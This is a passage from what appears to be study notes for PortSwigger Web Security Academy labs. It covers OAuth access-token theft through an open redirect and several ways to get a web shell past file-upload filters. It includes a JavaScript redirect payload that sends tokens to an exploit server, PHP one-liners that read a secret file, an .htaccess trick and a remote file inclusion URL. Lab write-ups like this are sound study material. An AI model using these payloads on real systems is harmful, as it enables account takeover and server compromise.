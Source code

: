 ```
4. Stealing OAuth access tokens via an open redirect  
Same as the previous one observe `/auth?client_id=xxx&redirect_uri=xxx&response_type=xxx&scope=xxx`.  
On home page open any post and at the bottom observe "Next post" button. It is open redirect.  
Write the next URL:
```
. . . redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/ . . .
```
This will redirect us to our exploit server and send us oauth code as fragment identifier, so we need to extract this value using JS  
Final payload:
```
<script>
    if (!document.location.hash) {
        window.location = "https://oauth-xxx.web-security-academy.net/auth?client_id=np1l4fiaizdo4d6r09enk&redirect_uri=https://xxx.web-security-academy.net/oauth-callback/../../post/next?path=https://exploit-xxx.exploit-server.net/exploit/&response_type=token&nonce=-2091701200&scope=openid%20profile%20email"
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
## File upload vulnerabilities
Arises at My-account Avatar upload
### Exploits
1. Web shell upload via Content-Type restriction bypass  
Change Content-Type to image/jpeg  
2. Web shell upload via path traversal  
Create web shell with directory traversal in filename (../) and URL encode it (%2e%2e%2f)  
Now you can get your file with /files/avatars/../rce2.php  
3. Web shell upload via extension blacklist bypass  
.php is blacklisted, but you can set .phar extension  
Also here be "correct" method using .htaccess method:
```
1. Change filename to .htaccess
2. Change Content-Type to `text/plain`
3. Replace file contents with
AddType application/x-httpd-php .l33t
4. Upload shell with .l33t extension
```
4. Web shell upload via obfuscated file extension
```
Null byte bypass rce.php%00.jpg
```
5. Remote code execution via polyglot web shell upload  
Polyglot PHP/JPG file is an standard Image but with PHP code in metadata.  
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" lel.jpg -o polyglot.php
```
6. Admin Panel RFI  
RFI function on target allow the upload of image from remote HTTPS URL source and perform to validation checks, the source URL must be HTTPS and the file extension is checked  
Incorrect RFI result in response message, File must be either a jpg or png.  
To exploit this vulnerability, paste php payload in body section of your exploit server and name it shell.php:  
```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
To bypass filters and provoke RFI, use the next payload:
```
https://exploit-server.com/shell.php#kek.jpg
```
## JWT
```